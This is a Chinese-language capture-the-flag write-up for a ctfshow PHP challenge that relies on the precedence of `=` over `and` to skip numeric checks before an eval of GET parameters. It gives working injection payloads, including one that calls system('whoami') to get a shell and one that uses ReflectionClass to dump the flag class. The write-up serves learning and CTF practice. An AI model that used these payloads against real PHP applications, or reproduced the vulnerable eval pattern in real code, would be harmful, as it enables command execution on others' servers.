 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202232029586.png)

>注意`=`的运算符优先级比`and`高

一道来自ctfshow的题目

```php
<?php

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}
```

>注意`=`的运算符优先级比`and`高

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202232030397.png)

这道题有两种解法

前置步骤都是利用运算符优先级绕过`$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);`和`if($v0)`,注意到`$v2`中不能有`;`,而`$v3`中必须要`;`

- 解法1

利用三目运算符,从而getshell

传入`v1=1&v2=md5&v3==='asdf'?0:system('whoami');`

构造eval为`md5('ctfshow')=='asdf'?0:system('whoami');`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202232022979.png)

成功getshell

- 解法2

利用反射类读取类中的信息

传入`v1=1&v2=echo new ReflectionClass&v3=;`


